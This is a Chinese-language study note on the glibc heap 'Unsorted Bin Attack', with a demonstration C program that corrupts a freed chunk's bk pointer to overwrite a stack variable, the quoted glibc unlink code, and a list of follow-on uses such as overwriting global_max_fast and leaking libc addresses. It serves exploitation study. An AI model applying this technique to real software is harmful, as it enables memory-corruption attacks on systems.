

## Unsorted Bin Attack.md

### 概述

Unsorted Bin Attack，顾名思义，该攻击与 Glibc 堆管理中的的 Unsorted Bin 的机制紧密相关。

Unsorted Bin Attack 被利用的前提是控制 Unsorted Bin Chunk 的 bk 指针。

Unsorted Bin Attack 可以达到的效果是实现修改任意地址值为一个较大的数值。

```
#include<stdio.h>
#include<stdlib.h>
 
int main(){
	fprintf(stderr,"这段代码演示了如何利用unsorted bin attack"
			"向栈中写入一个很大的无符号长整形值\n");
	fprintf(stderr,"在实践中，"
			"unsorted bin attack一般是为进一步的攻击做准备，"
			"比如重写libc中的全局变量global_max_fast，"
			"用于进一步的fastbin攻击\n\n");
			
	unsigned long target_var = 0;
	
	fprintf(stderr,"首先来第一次看看我们想要重写的目标"
			"的栈地址及存储值：\n");
	fprintf(stderr,"%p(变量的栈地址) = %ld(变量的初始值)\n\n"
	,&target_var,target_var);
	
	unsigned long *p = malloc(400);
	
	fprintf(stderr,"现在，我们在堆上申请了一个普通的chunk，"
			"它的地址是：%p\n",p);
	fprintf(stderr,"同时我们再申请一个chunk来避免第一次申请的"
			"chunk在free()后与Top chunk合并\n\n");
	
	malloc(500);
	
	free(p);
	
	fprintf(stderr,"现在，我们free掉了第一个申请的chunk"
			"它将被回收进unsorted bin中"
			"同时它的 bk 指针指向：%p\n",(void *)p[1]);
	/*------------VULNERABILITY-----------*/
 
	p[1] = (unsigned long)(&target_var - 2);    
	fprintf(stderr, "现在复现一个可以 "
            "重写 victim->bk 指针的漏洞\n");
	fprintf(stderr, "同时我们将其重写为 目标地址 - 16 "   
            "(在32位机上,"
            " 应该重写它为 目标地址 - 8):%p\n\n",(void *)p[1]);
 
  //------------------------------------
  
	malloc(400);
  
	fprintf(stderr,"让我们利用malloc()来获取我们刚刚free()掉的chunk."
			"就在刚刚那段时间内，我们的目标应该已经被重写了\n");
	fprintf(stderr,"%p(变量的栈地址) = %p(变量被重写后的值)\n\n"
			,&target_var,(void *)target_var);
 
}
```

只需要知道unsorted bin实现了将栈上的一个变量值变为了main_arena结构体中的一个地址，这句话仅出于 https://blog.csdn.net/xy_369/article/details/130818604。


其中理解Unsorted Bin Attack最关键的部分就是搞懂unsorted_chunks、victim、bk、bck每个代表什么，然后关键漏洞点是：
```
    /* remove from unsorted list */
            unsorted_chunks(av)->bk = bck;
            bck->fd = unsorted_chunks(av);
```
结合源码的写法一目了然------看一下源码怎么写的：

```
//源代码也是照搬参考链接中的
while ((victim = unsorted_chunks(av)->bk) != unsorted_chunks(av)) {
            bck = victim->bk;
            if (__builtin_expect(chunksize_nomask(victim) <= 2 * SIZE_SZ, 0) ||
                __builtin_expect(chunksize_nomask(victim) > av->system_mem, 0))
                malloc_printerr(check_action, "malloc(): memory corruption",
                                chunk2mem(victim), av);
            size = chunksize(victim);
 
            /*
               If a small request, try to use last remainder if it is the
               only chunk in unsorted bin.  This helps promote locality for
               runs of consecutive small requests. This is the only
               exception to best-fit, and applies only when there is
               no exact fit for a small chunk.
             */
            /* 显然，bck被修改，并不符合这里的要求*/
            if (in_smallbin_range(nb) && bck == unsorted_chunks(av) &&
                victim == av->last_remainder &&
                (unsigned long) (size) > (unsigned long) (nb + MINSIZE)) {
                ....
            }
 
            /* remove from unsorted list */
            unsorted_chunks(av)->bk = bck;
            bck->fd = unsorted_chunks(av);
```

①：victim = unsorted_chunks(av)->bk：这段代码的意思是将usorted bin的bk指针指向的chunk赋值给victim，所以victim在这里指代chunk p。

②：bck = victim->bk ：这句代码的意思是将victim的bk指针指向的chunk赋值给bck，所以bck在这里代表伪造的chunk。

③：unsorted_chunks(av)->bk = bck ：这一句的意思是将usorted bin的bk指针赋值为bck，也就是让usorted bin的bk指向伪造的chunk。

④：bck->fd  = unsorted_chunks(av) ：这一句的意思是将伪造的chunk的fd指向usorted bin

看了上面的①-④后现在再来看第三个unsorted bin到第四个unsorted bin的转变，是不是知道目标变量被写入的大数据值是怎么来的了？（①-④每一步都是glibc中的代码正常运行得来的）


小结：

利用任意地址写入一个大数字：

        ①：修改控制 fast bin 大小的全局变量，让我们可以申请很大的 fast bin chunk

        ②：修改循环次数，多次循环

        ③：进入一些程序正常运行不会进入的分支

泄露 main_arena 内部地址：

        ①：通过偏移计算 libc 的地址

暂时总结这几点。


Ref:

https://blog.csdn.net/xy_369/article/details/130818604

https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unsorted-bin-attack/

https://xz.aliyun.com/t/12319

从下面这篇文章其实可以换个角度就直接理解了，现在看的文章都没有这么写过：

https://xz.aliyun.com/t/12319




总的来说，malloc一个块A，然后释放，该块A进入unsorted bin list，然后修改这个块A的bk指针值（漏洞点），这时候相当于又引入了一个free chunk(fake)-B，对于堆管理器来说，这个fake chunk-B是新进入的free chunk,那么下次如果再进行mallo时候，根据FIFO的原则，首先分配块A，那么就要进行一次解链操作，就是释放块A，对于双链表的结构，肯定要设置unsorted bin的bk指针的值为块B地址，然后设置块B的fd指针的值为Unsorted bin的地址.这时候，如果我们事先设置了块B的fd指针为栈上的某个变量的地址，在修改的时候自然就把栈上变量的值给修改了。

hu .....好菜，终于理解了一点
